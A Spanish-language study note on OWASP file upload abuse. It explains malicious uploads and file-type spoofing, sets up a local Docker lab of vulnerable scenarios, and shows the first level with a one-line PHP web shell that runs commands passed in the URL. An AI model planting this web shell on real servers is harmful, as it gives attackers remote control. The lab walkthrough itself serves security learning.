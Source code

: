 --------
- Tags: #owasp #file #vulnerabilidades 
----
# Definición

> El abuso de subidas de archivos es un tipo de ataque que se produce cuando un atacante aprovecha las vulnerabilidades en las aplicaciones web que permiten a los usuarios **cargar archivos** en el servidor. Este tipo de ataque se conoce comúnmente como un ataque de “**subida de archivos maliciosos**“.

En un ataque de subida de archivos maliciosos, un atacante carga un archivo malicioso en una aplicación web, que luego se almacena en el servidor. Si por ejemplo el atacante consigue subir un archivo PHP y el servidor web lo almacena, podría conseguir ejecución remota de comandos y tomar el control del servidor.

Los atacantes también pueden utilizar técnicas de “**falsificación de tipos de archivos**” para engañar a una aplicación web con el objetivo de que acepte un archivo malicioso como si fuera un archivo legítimo.

---
# Laboratorio para Explotación

Para esta vulnerabilidad nos guiaremos a través de este [repositorio](https://github.com/moeinfatehi/file_upload_vulnerability_scenarios) de Github en el cual nos adentraremos de manera progresiva diferentes niveles de **Abuso de subida de archivos** desde las más fáciles hasta las mas complejas.

- ``git clone https://github.com/moeinfatehi/file_upload_vulnerability_scenarios``
- ``docker-compose up -d``

Una vez hecho esto, ya tendremos nuestro servicio web montado a través de **Docker** por el *puerto 9001*, por lo tanto entraremos a http://localhost:9001 para comenzar con la explotación.

Si tenemos algún problema con la subida de archivos por ==algún error==, podemos utilizar el siguiente "oneliner" entrando al contenedor, estando en el directorio */var/www/html*.

- ``ls -d up*|while read line; do mkdir $line/uploads;chown -R www-data:www-data $line/uploads;done``

--------
# Explotación

Dentro de la web tendremos diferentes carpetas que irán escalando en dificultad, por lo tanto vamos a tener que estar atentos y buscar cada detalle para conseguir llegar a un **RCE** a través de una subida de un archivo "*cmd.php*".

## Upload 1

En este escenario **no hay ningún tipo de sanitización**, por lo tanto si intentamos introducir nuestro archivo "*cmd.php*", podremos a la primera.

```php
<?php
	system($_GET['cmd'])
?>
```
